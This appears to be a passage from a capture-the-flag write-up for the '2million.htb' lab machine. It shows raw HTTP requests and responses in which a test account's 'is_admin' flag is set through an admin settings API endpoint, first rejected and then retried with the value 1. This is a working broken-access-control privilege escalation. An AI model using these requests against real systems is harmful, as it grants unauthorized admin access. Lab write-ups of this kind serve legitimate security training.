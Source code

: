   ```
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 59
  
  {"status":"danger","message":"Missing parameter: is_admin"}
  ```

  ```
  Request:

  PUT /api/v1/admin/settings/update HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 55
  
  {
  	"email":"bimbo@test.com",
  	"is_admin":"true"
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:46:01 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 76
  
  {"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
  
  Request:
  
  PUT /api/v1/admin/settings/update HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 50
  
  {
  	"email":"bimbo@test.com",
  	"is_admin":1
  }
  
  ```
